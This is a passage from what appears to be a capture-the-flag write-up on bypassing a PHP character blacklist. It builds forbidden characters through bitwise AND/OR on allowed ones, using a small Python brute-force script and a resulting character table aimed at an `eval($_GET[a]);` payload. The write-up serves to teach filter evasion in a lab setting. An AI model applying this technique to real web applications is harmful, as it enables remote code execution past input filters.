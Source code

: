 ### Part 2: Bypassing PHP's Waf

Now, comes the hardest part, we have to find a way to execute php code without all the blacklisted chars.

After removing all blacklisted chars, we are left with

```
0 1 2 3 4 5 6 7 8 9 a e l v ! # % & ( )
* + , - . / : ; < = > ? @ _ ` { | }
```

The way to go, is to form other characters using only those.
Usually we use the XOR operator `^`, because in PHP if we XOR two strings
it returns a string. For example:

```php
php > echo "A"^"&";
g
```

We're going to use the same technique but using AND and OR operators (`&` and `|`)
which is a bit harder because they are not reversible, so we need to bruteforce all combinations of 2 chars among the allowed ones, and see what we can get.

The final payload we want to get is `eval($_GET[a]);`, most teams who solved it used `eval($_SERVER[HTTP_E]);` because it is easier to form i guess, but i prefer my payload because it is shorter.

By using this small script:
```python
import itertools,string
allowed="eval0123456789_"
for a,b in itertools.combinations(allowed,2):
   x = chr(ord(a) & ord(b))
   y = chr(ord(a) | ord(b))
   if x in string.printable:
     print(f"{x} = {a} & {b}")
   if y in string.printable:
     print(f"{y} = {a} | {b}")
```

We re-run the script a few times by adding the new chars we found. and after few tries we get these chars:
```
` = a & v
d = e & v
w = e | v
m = e | l
~ = v | l
x = 8 | `
p = 0 | `
q = 0 | a
t = 0 | d
s = 2 | a
u = 4 | a
r = 2 | `
y = 9 | a
i = m & y
A = a & _
; = 2 | 9

( = 8 & l
) = 9 & m
} = l | 1
{ = 9 | s
$ = l & 7
E = e & _
T = t & _
```